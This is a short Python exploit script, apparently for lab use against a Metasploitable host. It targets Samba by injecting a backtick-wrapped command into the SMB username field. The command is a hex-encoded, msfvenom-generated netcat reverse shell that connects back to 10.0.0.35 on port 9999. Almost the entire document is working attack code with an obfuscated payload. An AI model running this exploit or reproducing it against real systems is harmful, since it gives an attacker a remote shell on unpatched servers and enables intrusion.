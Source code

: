 from smb.SMBConnection import SMBConnection
import random, string
from smb import smb_structs
smb_structs.SUPPORT_SMB2 = False
import sys


# Just a python version of a very simple Samba exploit. 
# It doesn't have to be pretty because the shellcode is executed
# in the username field. 

# Based off this Metasploit module - https://www.exploit-db.com/exploits/16320/ 

# Configured SMB connection options with info from here:
# https://pythonhosted.org/pysmb/api/smb_SMBConnection.html

# Use the commandline argument as the target: 
if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()


# Shellcode: 
# msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.0.35 LPORT=9999 -f python

buf =  ""
buf += "\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x6b"
buf += "\x62\x67\x61\x66\x3b\x20\x6e\x63\x20\x31\x30\x2e\x30"
buf += "\x2e\x30\x2e\x33\x35\x20\x39\x39\x39\x39\x20\x30\x3c"
buf += "\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66\x20\x7c\x20"
buf += "\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74\x6d\x70"
buf += "\x2f\x6b\x62\x67\x61\x66\x20\x32\x3e\x26\x31\x3b\x20"
buf += "\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x6b\x62\x67\x61\x66"
buf += "\x20"


username = "/=`nohup " + buf + "`"
password = ""
conn = SMBConnection(username, password, "SOMEBODYHACKINGYOU" , "METASPLOITABLE", use_ntlm_v2 = False)
assert conn.connect(sys.argv[1], 445)
